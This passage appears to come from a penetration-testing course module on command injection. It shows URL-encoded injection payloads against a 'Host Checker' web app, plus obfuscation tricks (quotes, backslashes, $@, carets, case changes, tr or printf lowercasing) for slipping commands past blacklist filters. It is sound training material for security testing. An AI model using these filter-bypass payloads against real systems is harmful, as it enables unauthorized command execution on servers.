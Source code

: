 The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

### Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the `bash` shell would ignore them and execute the command. These characters include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:
```bash
who$@ami
w\ho\am\i
```

### Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:
```cmd-session
C:\htb> who^ami

21y4d
```

## Advanced Command Obfuscation
If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:
```powershell-session
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:
```shell-session
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

But the above command will not work in Host Checker as it contains spaces, so we need to replace them with tabs:
```
tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi
```

There are many other commands we may use for the same purpose, like the following:
```bash
$(a="WhOaMi";printf %s "${a,,}")
```
